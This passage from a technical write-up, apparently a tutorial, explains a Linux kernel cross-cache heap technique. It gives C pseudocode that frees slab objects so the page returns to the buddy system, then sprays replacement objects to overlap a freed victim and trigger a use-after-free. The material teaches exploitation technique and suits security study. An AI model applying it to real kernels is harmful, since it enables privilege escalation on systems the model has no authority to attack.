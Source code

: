 ``` c
```

### 2.3. Recycle The Slab

After spraying a sufficient number of objectA, we need to ensure the two conditions mentioned in section **"1. Overview."** are met in for the buddy system to reclaim the slabs.

The pseudocode is as follows:

``` c
void trigger_reclaim()
{
    // [1] create `min_partial + 1` empty slabs
    for (int i = 0; i <= min_partial /* 5 */; i++) {
        for (int j = 0; j < objs_per_slab; j++) {
            if (i == 0 && j == 1) {
                free_objectV(object_idx[i][j]);
            } else {
                free_objectA(object_idx[i][j]);
            }
        }
    }
    
    // [2] create the remaining partial slabs to trigger promotion
    for (int i = min_partial + 1; i <= cpu_partial_slabs /* 8 */; i++) {
        free_objectA(object_idx[i][0]);
    }
}
```

### 2.4. Trigger UAF

The slab where objectV is located is now in the buddy system, allowing us to spray objectB to overlap with objectV.

``` c
#define SPRAY_SIZE 1000
int objectB_idx[SPRAY_SIZE];
void cross_cache()
{
    for (int i = 0; i < 1000; i++)
        objectB_idx[i] = allocate_objectB();
    
    trigger_UAF();

    for (int i = 0; i < 1000; i++)
        use_objectB(objectB_idx[i]);
}
```

## 3. Experiment

### 3.1. SLUBStick

